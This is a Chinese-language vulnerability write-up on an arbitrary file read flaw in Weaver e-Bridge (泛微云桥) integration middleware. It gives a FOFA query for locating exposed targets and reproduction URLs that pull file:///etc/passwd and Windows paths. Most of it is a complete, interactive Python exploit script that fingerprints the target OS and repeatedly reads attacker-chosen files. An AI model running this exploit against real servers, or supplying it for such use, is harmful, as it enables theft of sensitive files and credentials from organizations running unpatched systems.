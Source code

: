 # 泛微云桥-e-Bridge-任意文件读取

## 漏洞描述

泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 影响版本

> [!NOTE]
>
> 泛微云桥 e-Bridge 2018-2019 多个版本

## FOFA

> [!NOTE]
>
> title="泛微云桥e-Bridge"

## 漏洞复现

> [!NOTE]
>
> 分为两种，分别为 Windows 和 Linux

### Windows

访问 **http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt**

![](泛微云桥-e-Bridge-任意文件读取.assets/16273635359212642.jpg)

成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**

![](泛微云桥-e-Bridge-任意文件读取.assets/1627363536082468.jpg)

### Linux

访问 **http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt**

![](泛微云桥-e-Bridge-任意文件读取.assets/1627363536295997.jpg)

成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**

![](泛微云桥-e-Bridge-任意文件读取.assets/1627363536542659.jpg)

## 漏洞利用POC

> [!NOTE]
>
> 注意读取Linux系统文件时，需要完整路径
>
> 例如读取根目录下的 1.txt
>
> 应为 /1.txt 而不是 1.txt

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                         \033[0m')
    print('+  \033[34mVersion: 泛微云桥 e-Bridge                                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

# 判断操作系统 or 判断漏洞是否可利用
def POC_1(target_url):
    vuln_url_1 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt"
    vuln_url_2 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt"
    vuln_url_3 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///&fileExt=txt"


    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response_1 = requests.get(url=vuln_url_1, headers=headers, verify=False, timeout=10)
        response_2 = requests.get(url=vuln_url_2, headers=headers, verify=False, timeout=10)
        response_3 = requests.get(url=vuln_url_3, headers=headers, verify=False, timeout=10)
        if "无法验证您的身份" in response_1.text and "无法验证您的身份" in response_2.text:
            print("\033[31m[x] 漏洞已修复，不存在漏洞 \033[0m")
            sys.exit(0)
        else:
            if "No such file or directory" in response_1.text:
                print("\033[32m[o] 目标为 Linux 系统\033[0m")
                id = re.findall(r'"id":"(.*?)"', response_3.text)[0]
                print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
                return id,"linux"
            elif "系统找不到指定的路径" in response_2.text:
                print("\033[32m[o] 目标为 Windows 系统\033[0m")
                id = re.findall(r'"id":"(.*?)"', response_1.text)[0]
                print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
                return id,"windows"

            else:
                print("\033[31m[x] 无法获取目标系统\033[0m")
                sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

# 验证漏洞
def POC_2(target_url, id):
    file_url = target_url + "/file/fileNoLogin/{}".format(id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        response.encoding = 'GBK'
        print("\033[32m[o] 成功读取：\n\033[0m{}".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

# windows 文件读取
def POC_3(target_url, File):
    file_url = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/{}&fileExt=txt".format(File)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        id = re.findall(r'"id":"(.*?)"', response.text)[0]
        print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
        POC_2(target_url, id)
    except :
        print("\033[31m[x] 请求失败，无法读取文件 \033[0m)")

# linux读取文件
def POC_4(target_url, File):
    file_url = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file://{}&fileExt=txt".format(File)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        id = re.findall(r'"id":"(.*?)"', response.text)[0]
        print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
        POC_2(target_url, id)
    except:
        print("\033[31m[x] 请求失败，无法读取文件 \033[0m)")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    id,system = POC_1(target_url)
    POC_2(target_url, id)
    while True:
        if system == "windows":
            File = input("\033[35mFile >>> \033[0m")
            if File == "exit":
                sys.exit(0)
            else:
                POC_3(target_url, File)
        if system == "linux":
            File = input("\033[35mFile >>> \033[0m")
            if File == "exit":
                sys.exit(0)
            else:
                POC_4(target_url, File)

```

![](泛微云桥-e-Bridge-任意文件读取.assets/1627363536859803.jpg)